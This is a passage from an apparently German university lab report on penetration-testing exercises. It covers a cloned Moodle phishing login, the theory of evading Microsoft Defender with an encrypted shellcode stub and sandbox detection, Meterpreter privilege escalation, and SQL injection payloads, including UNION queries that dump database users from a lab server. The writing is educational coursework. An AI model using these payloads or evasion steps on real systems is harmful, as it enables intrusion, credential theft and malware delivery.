		
\includegraphics[width=\linewidth]{Whakaahua/aufgabe3/moodle_clone_pics/moodle_login_cloned.png}
		\caption{Geklonter Login}
		\label{fig:moodle clone}
	\end{subfigure}
	
	\caption{Vergleich der Login Seiten}
	\label{fig:vergleich}
\end{figure}

\begin{figure}[H]
	\centering
	
	\begin{subfigure}{0.48\textwidth}
		\centering
		
\includegraphics[width=\linewidth]{Whakaahua/aufgabe3/moodle_clone_pics/moodle_login_original_questionmark.png}
		\caption{Original Fragezeichen}
		\label{fig:moodel frag}
	\end{subfigure}
	\hfill
	\begin{subfigure}{0.48\textwidth}
		\centering
		
\includegraphics[width=\linewidth]{Whakaahua/aufgabe3/moodle_clone_pics/moodle_login_cloned_questionmark.png}
		\caption{Geklontes Fragezeichen}
		\label{fig:moodle clone frag}
	\end{subfigure}
	
	\caption{Vergleich der Login Seiten}
	\label{fig:vergleich}
\end{figure}

Es gibt zwei Unterschiede, die allerdings nur bei genauer Betrachtung auffallen und im 1 zu 1 Vergleich. Es wird ein Icon nicht angezeigt und das Fragezeichen ist auf der Geklonten Seite anders. Das sind allerdings kleine Details, welche bei einem schnellen anmelden nicht auffallen würden. Etwas auffälliger ist die Fehlermeldung, welche beim betreten der Seite angezeigt wird. Allerdings würde diese Fehlermeldung im Alltag einfach als ein kleiner technischer defekt abgeschrieben werden und unwahrscheinlich als Zeichen einer gefälschten Website wahrgenommen werden.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe3/moodle_clone_pics/moodle_login_cloned_undefined.png}
	\caption{Fehlermeldung}
	\label{fig:Klonen fehlermeldung}
\end{figure}


Zusammenfassend lässt sich die gefälschte Website nur sehr schwer erkennen und erfordert ein geschultes Auge. Am ehesten lässt sich dies wahrscheinlich anhand der URL erkennen (gut das unser Rechenzentrum die URL geändert hat).

\section{Modernes Malware Design: Umgegung des Microsoft Defender}
\subsection*{Dokumentieren Sie Ihr Vorgehen, um den MS Defender mit einer Malware zu umgehen. Dies simuliert eine Social-Engineering-Attacke, bei der der Nutzer die Malware bspw. via Office-Dokument nachlädt (die Malware wird also von einem externen Server implizit nachgeladen, wenn das Dokument zum Editieren geöffnet wird, bspw. via Word-Makro). Sie müssen hierbei die Malware nicht selbst entwickeln, es geht hier nur um das theoretische Vorgehen und die einzelnen Schritte.}
Als Grundlage dient das Paper „Bypass Antivirus Dynamic Analysis“ von Emeric Nasi.\\
Grundlegend basieren Umgehungen von Antivirenprogrammen auf zwei sicherzustellenden Schritten. Der Code, welcher möglicherweise als gefährlich eingestuft werden könnte, muss versteckt werden, meist durch Verschlüsselung.\\
Ebenso muss der Decryption Stub so erstellt werden, dass er nicht als Virus erkannt wird und die Emulations- bzw. Sandboxing-Phase umgeht.\
Um zu verstehen, wie genau das funktioniert, müssen zunächst die Grundlagen betrachtet werden, anhand derer ein Antivirusprogramm erkennt, ob es sich um Malware handelt. Zum einen gibt es die Static Signature Analysis. Wenn eine Malware erkannt wird, bekommt sie eine Signatur und wird in einer großen Datenbank gespeichert, mit der zukünftige Programme beim Analysieren abgeglichen werden. Dadurch kann bekannte Malware verhindert werden, sofern sie nicht großartig modifiziert wurde. Dennoch bringt diese Technik nichts gegen neue, bislang unbekannte Malware. Die zweite Technik eines Antivirusprogramm ist die Static Heuristic Analysis. Hierbei wird der Code nach bekannten Mustern durchsucht, die auf Malware hindeuten könnten. Damit kann auch noch nicht bekannte Malware erkannt werden. Allerdings entstehen dabei auch False Positives.\
Die letzte Methode ist die Dynamic Analysis. Hierbei wird der zu scannende Code in einer virtuellen Umgebung ausgeführt. Diese Methode ist populär, da viel Software verschlüsselt ist. Das Ziel des Antivirusprogramms besteht darin, dass der Code durch die Ausführung entschlüsselt wird und somit mit den anderen Verfahren der „neue“ bzw. eigentliche Code analysiert werden kann und nicht nur die Verschleierung. Wie kann man dies nun aushebeln?\\
Wie bereits erwähnt, ist das Verschlüsseln eines der gängigen Mittel, um dem Antivirusprogramm Probleme zu bereiten. Zusätzlich benötigt man einen nicht erkannten Self-Decryption-Mechanismus, und im besten Fall kann man das Antivirusprogramm daran hindern, den Decryption Stub auszuführen. Eine weitere wichtige Limitation, die man kennen muss, um Antivirenprogramme zu täuschen, ist, dass Scans sehr schnell durchgeführt werden müssen und somit die Anzahl der Operationen für jeden Scan limitiert ist. Gleichzeitig ist die simulierte Umgebung nicht identisch mit der realen Maschinenumgebung, was ebenfalls von Malware erkannt werden kann.\
Es gibt also verschiedene Ansätze, Malware so zu verschleiern, dass sie nicht vom Antivirusprogramm erkannt wird. Zum theoretischen Vorgehen in unserem Szenario:\\
Wir haben die Ausgangssituation, dass unser Target auf unseren Anhang klickt und versucht, das Dokument zu bearbeiten. Damit wird im Hintergrund die Malware heruntergeladen und vom MS Defender geprüft. Grundlegend brauchen wir nun, wie bereits vorher auch schon erläutert:
\begin{lstlisting}[caption={Grundbaustein}]
	int main()
	decryptCodeSection();
	startShellCode();
\end{lstlisting}
Dies alleine reicht aber noch nicht, da der Code beim Ausführen entschlüsselt wird und somit erkannt wird, dass eine Meterpreter-Shell geöffnet werden soll.\\
Daher bedienen wir uns an dem Beispiel aus dem Paper, bei dem wir vor dem Entschlüsseln und Starten des Shellcodes sehr viel Speicher reservieren und wieder freigeben. Dabei nutzen wir aus, dass der Defender den Scan abbricht, wenn zu viele Ressourcen beansprucht werden. So schaffen wir es zu umgehen, dass unser Code geflaggt wird. Eine sehr simple, aber effektive Methode.\\
Damit wäre das Ziel wahrscheinlich erreicht. Trotzdem wird folgend noch eine weitere Methode benannt, wie es klappen könnte, die ebenfalls in dem Paper vorgestellt wurde.\\
Die „Knowing your enemy“-Methode, mit der wir prüfen können, ob wir uns noch in der Sandbox-Umgebung des MS Defenders befinden. Dies erfordert jedoch etwas erweiterte Informationen über das System des Gegenübers. Da es sich hier in der Aufgabe scheinbar um Social Engineering handelt, könnten diese Informationen bereits vorliegen. Der Trick besteht darin, zu versuchen, spezifische Dateien des Benutzeraccounts auszulesen, und nur dann, wenn dies erfolgreich ist, den Shellcode zu entschlüsseln und auszuführen. In der Sandbox-Umgebung existiert dieser spezifische Nutzer bzw. die Datei in der Regel nicht. Somit wird der Shellcode in der Sandbox-Umgebung nicht entschlüsselt und kann folglich auch nicht geflaggt werden.
\section{Post-Explotation:Privilege Escalation}
Diese Aufgabe haben wir basierend auf der Aufgabe 3 den Angriff fortgeführt. Wir haben es vorher geschafft bereits eine Session und einer Reversed-TCP Meterpretershell.\\
Also war der erste Gedanke mit "getsystem" Meterpreter versuchen zu lassen und damit die Rechte zu erweitern.\\
In diesem Fall war das Erfolgreich:
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe5/getsystem.png}
	\caption{Systemrechte}}
\label{fig:getsystem}
\end{figure}
Damit hatten wir maximale Rechte und die Aufgabe war gelöst.
\section{SQL-Injection}
\textit{Machen Sie sich mit Spider, Proxy Repeater und Intruder der Burp Suite vertraut. Dokumentieren Sie Ihr Vorgehen! Sie können bei dieser Aufgabe für einen schnellen Überblick über das System auch den Zed Attack Proxy verwenden. Es sei aber gleich vorab angemerkt, dass Sie damit nicht alle Aufgaben lösen können werden, jedenfalls nicht ohne den Proxy entsprechend anzupassen. Für diese Aufgabe
haben Sie auch ein neues, angepasstes Kali erhalten, was alle benötigen Tools enthält (ZAP, sqlmap, weitere Tools).}

\subsection{Zum warm werden}
\textit{Nutzen Sie die Burp Suite, um eine SQL Injection gegen den Admin Login von Mutilidae2 durchzuführen. Dieser Server dient aber nur als Übungsziel und ist nicht, was Sie final angreifen sollen.}

\textit{In Moodle finden Sie dazu die Datei Injections, um mittels Intruder die Anfälligkeiten des Servers auf diesen Angriff zu überprüfen.}\\

\noindent Statt \texttt{Intruder} wird der \texttt{Repeater} verwendet. In \autoref{fig:sql_syntax_error} ist ein Login-Versuch mit einer missglückten SQL-Injection zu sehen.
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe7/a/sql_syntax_error.png}
    \caption{Burb Suite: Failed login with Syntax Error}
    \label{fig:sql_syntax_error}
\end{figure} \noindent
Diese unglückliche Fehlermeldung, gewährt uns Einblick in den Aufbau der im Backend verwendeten (und bereits vermuteten) SQL-Anfrage. \autoref{code:sql-query} zeigt diese nochmals formatiert.
\begin{lstlisting}[language=SQL, caption={SQL-Abfrage im Backend}, label={code:sql-query}]
    SELECT username
    FROM accounts
    WHERE username = '[USER]'
    AND password = '[PASSWORD]'
    ;
\end{lstlisting}
Eine mögliche Injection wäre also
\begin{center}
    \texttt{password := \textbf{passwort' OR '1'='1}}, mit \texttt{\textbf{Admin}} als Nutzernamen,
\end{center}
was injiziert zur SQL-Abfrage in \autoref{code:sql-query-injected} führt.
\begin{lstlisting}[language=SQL, caption={Injected SQL-Query}, label={code:sql-query-injected}]
    SELECT username
    FROM accounts
    WHERE username = 'Admin'
    AND password = 'password:passwort' OR '1'='1'
    ;
\end{lstlisting}
Die nun entstandene Tautologie bei der Boolean-Bedingung für \texttt{password} sorgt dafür, dass die Abfrage immer wahr ist, was zu einem Login führt, wie in \autoref{fig:sqli_login_success} zu sehen. 
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe7/a/sqli_login_success.png}
    \caption{Burb Suite: Successful login with credentials}
    \label{fig:sqli_login_success}
\end{figure} \noindent
Die verwendete SQL-Injection kann ebenfalls in einem echten Browser verwendet werden. \autoref{fig:admin_loggedin} zeigt den erfolgreichen Login unter Verwendung der genannten SQL-Injection.
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe7/a/admin_loggedin.png}
    \caption{Browser: Admin-Login Success}
    \label{fig:admin_loggedin}
\end{figure} \noindent
Wird alternativ der \texttt{Intruder} verwendet, kann der hier gezeigte händische Vorgang automatisiert werden, indem verschiedene mögliche Eingaben (Datei \texttt{Injections} von Moodle) durchprobiert werden, bis ein Erfolg vorliegt.


\subsection{Angriff gegen reales Szenario}
\textit{Öffnen Sie die Webseite unter 192.168.1.161. Bei diesem Szenario ist es gestattet automatische Tools wie sqlmap und ZAP zu verwenden. Testen Sie aber durchaus auch manuell und vergleichen Sie ihre Ergebnisse von mit denen der automatischen Tools.}

Nun ging es gegen den Blog-Server auf der Adresse 192.168.1.161. Nach einigen Tests konnten wir feststellen, dass hier eine URL-basierte SQL-Injektion möglich ist. Dies wurde entdeckt, indem erneut einfache SQL-Injection-Statements in die URL eingefügt wurden. Dadurch konnten zusätzliche Inhalte angezeigt werden, die ursprünglich nicht auf der Webseite vorhanden waren, wie in der folgenden Abbildung zu sehen ist:
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe7/b/Zusatzinhalt.png}
	\caption{Zusätzlicher Inhalt durch SQL-Injektion}
	\label{fig:sqluser315}
\end{figure}
\noindent
Somit hatten wir den Bereich gefunden, den wir manipulieren konnten, um weitere Inhalte aus der Datenbank auszulesen. Mithilfe weiterer Recherche und unter Zuhilfenahme der Fehlermeldungen bei fehlerhaften SQL-Statements ergab sich folgender Befehl, mit dem ein Überblick über die vorhandenen Tabellen gewonnen werden konnte:
\begin{verbatim}
	id=1 AND 1=2 UNION SELECT 1, table_name,3,4,5,6,7,8,9,10,11,12,13
	FROM information_schema.tables;--
\end{verbatim}
Um Informationen über die Spalten einzelner Tabellen zu erhalten, wurde die Anfrage entsprechend angepasst:
\begin{verbatim}
	UNION SELECT 1, column_name,3,4,5,6,7,8,9,10,11,12,13
	FROM information_schema.columns
	WHERE table_name='Tabellenname';--
\end{verbatim}
Das eigentliche Ziel bestand jedoch darin, Benutzerkonten sowie die zugehörigen Passwort-Hashes auszulesen.\\
Dazu wurde die Anfrage erneut leicht modifiziert:
\begin{verbatim}
	id=15 AND 1=2 UNION SELECT 1, group_concat(user),3,4,5,6,7,8,9,10,11,12,13
	FROM mysql.user;--
\end{verbatim}
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe7/b/User_DB}
	\caption{Benutzer der Datenbank durch SQL-Injektion}
	\label{fig:sqlUSER}
\end{figure}
\noindent
\begin{figure}[H]
	\centering
